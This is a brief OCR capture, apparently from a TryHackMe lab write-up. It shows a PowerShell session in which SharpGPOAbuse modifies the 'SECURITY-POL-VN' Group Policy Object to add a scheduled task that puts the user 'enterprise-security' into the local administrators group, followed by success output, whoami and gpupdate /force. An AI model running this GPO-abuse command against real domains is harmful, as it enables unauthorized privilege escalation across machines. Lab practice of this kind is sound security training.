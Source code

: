 # under

thm vuln


PS C:\Enterprise-Share> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Help" --Author vulnnet\administrator --command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
[+] Domain = vulnnet.local
[+] Domain Controller = VULNNET-BC3TCK1SHNQ.vulnnet.local
[+] Distinguished Name = CN=Policies,CN=System,DC=vulnnet,DC=local
[+] GUID of "SECURITY-POL-VN" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] Creating file \\vulnnet.local\SysVol\vulnnet.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
PS C:\Enterprise-Share> whoami
vulnnet\enterprise-security
PS C:\Enterprise-Share> gpupdate /force
